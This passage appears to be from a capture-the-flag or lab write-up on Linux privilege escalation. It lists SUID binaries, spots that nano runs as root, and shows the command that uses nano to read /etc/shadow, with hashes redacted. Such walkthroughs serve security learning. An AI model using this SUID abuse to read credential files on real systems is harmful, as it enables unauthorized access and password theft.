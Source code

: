 ```bash
     5576     40 -rwsr-xr-x   1 root     root               39144 May 30  2023 /usr/bin/umount
     9166     68 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /usr/bin/passwd
     9165     88 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /usr/bin/gpasswd
     3189     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /usr/bin/newgrp
     9163     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /usr/bin/chsh
     2136    316 -rwsr-xr-x   1 root     root              320136 Apr 10  2020 /usr/bin/nano
    10845     68 -rwsr-xr-x   1 root     root               67816 May 30  2023 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     1571    316 -rwsr-x---   1 root     zeamkish          320160 Feb 18  2020 /usr/bin/find
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     5210     56 -rwsr-xr-x   1 root     root               55528 May 30  2023 /usr/bin/mount
```

We can see that we can run nano with root privileges.

I tried to gain a root shell but failed, so I just went and read the file of the shadow and password:

```bash
/usr/bin/nano /etc/shadow

root:<redacted>:19519:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:19502::::::
ubuntu:<redacted>:19519:0:99999:7:::
lxd:!:19502::::::
mysql:!:19502:0:99999:7:::
zeamkish:<redacted>:19516:0:99999:7:::
ftp:*:19519:0:99999:7:::
bind:*:19523:0:99999:7:::
Debian-snmp:!:19523:0:99999:7:::
redis:*:19523:0:99999:7:::
mosquitto:*:19523:0:99999:7:::
fwupd-refresh:*:19544:0:99999:7:::

```